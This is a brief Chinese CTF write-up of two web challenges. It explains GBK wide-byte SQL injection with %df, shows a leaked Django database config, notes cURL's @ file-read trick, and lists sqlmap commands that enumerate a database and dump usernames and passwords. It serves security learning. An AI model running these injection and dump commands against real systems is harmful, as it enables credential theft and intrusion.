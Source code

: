 # Web Challenge Area

## 0x01 Cat

%df 宽字节报错

> mysql在使用GBK编码的时候，会认为两个字符是一个汉字（前一个ascii码要大于128，才到汉字的范围）。报错的原因就是多了一个单引号，而单引号前面的反斜杠不见了。这就是mysql的特性，因为gbk是多字节编码，他认为两个字节代表一个汉字，所以%df和后面的\也就是%5c变成了一个汉字“運”，而’逃逸了出来。

查库文件地址 

```
          <td class="code"><pre>{&#39;default&#39;: {&#39;ATOMIC_REQUESTS&#39;: False,
             &#39;AUTOCOMMIT&#39;: True,
             &#39;CONN_MAX_AGE&#39;: 0,
             &#39;ENGINE&#39;: &#39;django.db.backends.sqlite3&#39;,
             &#39;HOST&#39;: &#39;&#39;,
             &#39;NAME&#39;: &#39;/opt/api/database.sqlite3&#39;,
             &#39;OPTIONS&#39;: {},
             &#39;PASSWORD&#39;: u&#39;********************&#39;,
             &#39;PORT&#39;: &#39;&#39;,
             &#39;TEST&#39;: {&#39;CHARSET&#39;: None,
                      &#39;COLLATION&#39;: None,
                      &#39;MIRROR&#39;: None,
                      &#39;NAME&#39;: None},
             &#39;TIME_ZONE&#39;: None,
             &#39;USER&#39;: &#39;&#39;}}</pre></td>
```

用@读sql文件

>| **`CURLOPT_POSTFIELDS`** | 全部数据使用HTTP协议中的 "POST" 操作来发送。 要发送文件，在文件名前面加上*@*前缀并使用完整路径。 文件类型可在文件名后以 '*;type=mimetype*' 的格式指定。 这个参数可以是 urlencoded 后的字符串，类似'*para1=val1&para2=val2&...*'，也可以使用一个以字段名为键值，字段数据为值的数组。 如果`value`是一个数组，*Content-Type*头将会被设置成*multipart/form-data*。 从 PHP 5.2.0 开始，使用 *@* 前缀传递文件时，`value` 必须是个数组。 从 PHP 5.5.0 开始, *@* 前缀已被废弃，文件可通过 [CURLFile](https://www.php.net/manual/zh/class.curlfile.php) 发送。 设置 **`CURLOPT_SAFE_UPLOAD`** 为 **`TRUE`** 可禁用 *@* 前缀发送文件，以增加安全性。 |
>| ------------------------ | ------------------------------------------------------------ |
>|                          |                                                              |

找flag

。。。。

## 0x02 ics-04

三个界面（注册，登陆，找回密码）跑了一下sqlmap

发现找回密码界面是可以的

用burp suite抓post包然后给sqlmap

```bash
sqlmap -r post.txt -p username --batch #看是否能注入
sqlmap -r post.txt -p username --dbs --batch#爆破库列表
sqlmap -r post.txt -p username -D cetc004 --tables --batch#爆破表
sqlmap -r post.txt -p username -D cetc004 -T user --columns --batch#爆破字段
sqlmap -r post.txt -p username -D cetc004 -T user -C "username,password"--dump --batch#爆破字段值
```

